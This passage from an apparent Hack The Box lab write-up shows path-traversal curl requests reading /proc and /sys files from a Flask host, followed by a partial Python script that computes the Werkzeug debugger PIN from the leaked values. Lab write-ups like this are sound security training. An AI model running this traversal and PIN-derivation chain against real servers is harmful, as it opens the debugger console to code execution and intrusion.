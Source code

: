 Now, retrieving `/proc/net/arp`:
```bash
curl --path-as-is http://10.129.227.140/uploads/..//proc/net/arp --ignore-content-length
IP address       HW type     Flags       HW address            Mask     Device
172.17.0.1       0x1         0x2         02:42:d0:f3:4e:a7     *        eth0
```
Active interface `eth0`, using this to grab the MAC address from `/sys/class/net/eth0/address`:
```bash
curl --path-as-is http://10.129.227.140/uploads/..//sys/class/net/eth0/address --ignore-content-length
02:42:ac:11:00:02
python -q
>>> 0x0242ac110002
2485377892354
>>>
```

Next, grabbing `/proc/sys/kernel/random/boot_id` and `/proc/self/cgroup`

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/OpenSource/src]
└─$ curl --path-as-is http://10.129.227.140/uploads/..//proc/sys/kernel/random/boot_id --ignore-content-length
49f8507d-f27f-4ab3-8797-b1d1cf318111

┌──(kali㉿kali)-[~/Desktop/HTB/OpenSource/src]
└─$ curl --path-as-is http://10.129.227.140/uploads/..//proc/self/cgroup --ignore-content-length
12:blkio:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
11:hugetlb:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
10:cpu,cpuacct:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
9:net_cls,net_prio:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
8:freezer:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
7:memory:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
6:devices:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
5:cpuset:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
4:rdma:/
3:perf_event:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
2:pids:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
1:name=systemd:/docker/6d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c
0::/system.slice/snap.docker.dockerd.service
```
Final script to get the PIN:
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892354',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '49f8507d-f27f-4ab3-8797-b1d1cf3181116d6f391adb0dd94d35dd08d88f0607c01710f8399287ac7fcce475aa812c082c'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
```